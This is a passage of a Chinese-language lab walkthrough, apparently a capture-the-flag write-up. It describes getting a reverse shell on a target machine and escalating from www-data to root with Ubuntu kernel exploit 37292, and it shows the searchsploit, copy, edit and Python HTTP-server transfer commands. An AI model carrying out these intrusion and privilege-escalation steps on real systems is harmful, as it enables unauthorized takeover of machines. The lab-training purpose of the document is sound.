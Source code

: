 ![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=NDAyYTk1YTNkYzEyODQwNDE1NTcyYTE0YzhjNTYxOWJfUGhSMEI4ZDhUYnZLcDBQbHF1U3hOdDRBNWplVHl1aXhfVG9rZW46QWc4bGJPUTUwb3ZyYkd4a3dHSmNYUEtqbjBjXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

创造网页流量触发命令，点击右下角ABC那个按键，使攻击服务器监听到，获得一个shell权限

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=YWYyZjFkODY3Y2RhYmJkNGQyZjRiY2Q4ZmE4NTVkMDdfVld5cXJDRXNTQk1WNWc5Qm56aVZkeVF3Y3h5NTJETUxfVG9rZW46RnRJUmJPcExEbzFySU14a25kdmNpN2Uybnc3XzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZjRkOGRjNzJiNDE3ZTQxZDMzNWNmM2U2MGZmZTI1ZTVfdTJDT3FPTFBSa2tSRzVuTDRNVnRWRzRydWx6bzgxcEVfVG9rZW46UmdwUWJQclRqb1RFTGN4SGsyTWNRVUhJblRoXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

也需要使用python获得tty

# 内核提权

www-data是低特权用户，需要提升到root权限

`cd /tmp` 进入tmp目录

`uname -a` 根据linux版本提权

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=MDNjNzY3YTExZTc5MGRlNjQwZTBjZTg3ZjAwNWFkZjVfaU4zSjNlMFM4Sk9ua1BkS0owQXZGYm1BZVRHQ3RlcERfVG9rZW46TENsY2JiYkJJbzQ1S1l4ZnlPZ2NxdVRDblNkXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

谷歌搜索：Linux ubuntu 3.13.0-32 exploit

获得exp版本：37292

换回攻击者的终端

`searchsploit 37292`        ---搜索kali本地的exp库中37292攻击脚本信息

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZGRjMDMwOTk4MTk5M2NiY2M0MTU1MjA0MDE3M2MxMWNfNXVhSm1OVGk5WWdoUnY2MGJFY1RZOXJSUGFBc0FDbThfVG9rZW46QU9CZ2JUZHBub21JbVh4a3RNdGNhRFQ1bmRlXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

`cp /usr/share/exploitdb/exploits/linux/local/37292.c /home` ---目录自行修改

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=MjMxYmNiMTYxYjk3ZjdjZjZhNzE3ZmU0YmU3YzZhZDFfT2dZTmZIRER3cllhSWM2MkIwT3JnZHp6WDFiWTJudkVfVG9rZW46UjVNc2JHUjIxb1JzN0x4M1NVTWNOMmlHblhmXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

探测目标系统

`gcc -h`     gcc没有安装

`which cc`    cc有安装

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=MDFhMmIxMDIzYzdjYmJhYTE4ZjgzZmMyZTM5NDc1MmRfWTh4dDc5OWlkdTYyNFI3b3JBQnUyZVNoN0dEQnRGWGRfVG9rZW46T1oxVGJIZG0wb01sU3F4YjlyN2NTMG43bjRnXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

无法进行GCC编译，需要改下脚本为cc

gedit 37292.c       ---文本打开 

第143行将gcc改为cc  

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=MDFmYmYyNTE2MTI4YjI2YWE1NjdhZjA5OTY2YWU3NTVfSm1mWG1LR0pkcGNMUnFVVVJ0RUplOWdsdUtYTGJHZ2RfVG9rZW46VkFScGJDaGpNb2xQVjV4OGtBb2NqWlNVbnRiXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

攻击者使用python创建一个网络服务，上传37292.c到靶机中

```
python3``——python -m http.server 8081
```

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=NGViZWVlY2RkYmY0ZWM1ZjMzOThjOWZmZThkZWM3YThfQ1EwOUxlcXNicDMxemlOb3c1Q1pnUnVmRGJWaERxZWZfVG9rZW46Q3R0QWJmRFZUb09wdE54WThEMWNCNVRBbjhkXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)
